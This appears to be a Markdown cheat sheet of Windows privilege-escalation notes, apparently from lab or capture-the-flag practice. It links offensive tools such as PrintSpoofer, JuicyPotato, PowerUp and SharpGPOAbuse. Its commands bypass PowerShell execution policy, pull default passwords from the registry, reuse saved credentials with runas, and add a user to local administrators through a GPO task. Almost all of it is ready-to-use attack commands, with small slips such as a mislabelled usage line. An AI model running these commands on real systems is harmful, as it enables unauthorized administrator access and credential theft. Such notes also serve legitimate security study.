 # Window Privesc "Source Links"

## PrintSpoofer.exe
- Link
```
https://github.com/itm4n/PrintSpoofer
```

## JuicyPotato
- Link
```
https://github.com/ohpe/juicy-potato
```

## Powerup
- Link
```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

powershell -ep bypass
.\PowerUp.ps1
Invoke-PrivescAudit
```

## PrivescCheck
- Link
```
https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1
```

## Powerview
- Link
```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```

## SharpHound
- Link
```
https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1
```

## PowerGPOAbuse
- Link
```
https://github.com/rootSySdk/PowerGPOAbuse
https://raw.githubusercontent.com/rootSySdk/PowerGPOAbuse/master/PowerGPOAbuse.ps1
```
- Usage
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName 'noraj' --Author 'vulnnet\administrator' --Command "powershell.exe /c" --Arguments "net localgroup administrators enterprise-security /add" --GPOName "security-pol-vn"
```

## SharpGPOAbuse
- Link
```
wget https://github.com/byronkg/SharpGPOAbuse/raw/main/SharpGPOAbuse-master/SharpGPOAbuse.exe
```
____________________________________________________________________________________________________________________________________________________________________________________________________________________________

# Window Privesc
## PowerUp
- Check Default Username and Password from Registry
```
reg query "HKLM\Software\Microsoft\Windows Nt\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\Software\Microsoft\Windows Nt\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\Software\Microsoft\Windows Nt\CurrentVersion\Winlogon" /v AutoAdminLogon
```

- Check the service that current user can modify
```
Get-ModifiableService
```

- Check the unquoted service name
```
Get-ServiceUnquoted
```

## PrivescCheck
- Load ps1 script and run 
```
powershell -ep bypass -c ". .\PrivescCheck.ps1;Invoke-PrivescCheck "
```

- Check window services for user escalating
```AInvoke-ServiceAudit
```

- Check outdated and potentially vulnerable software
```
Invoke-AuditInstalledPrograms
```
## Unattendend Installation Files

- Default File Location
```
C:\Windows\Panther\Unattended.xml
C:\Windows\Panther\Autounattended.xml
```

## Window Credential Manager (Manual)
- Check Stored Credential
```
cmdkey /list
```

- Login using saved credentials ( can also run malicious shell.exe instead of cmd )
```
runas.exe /savecred /user:administrator cmd
```

## Powershell History
- Check history file location
```
C:\Users\student\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_History.txt
```

## 



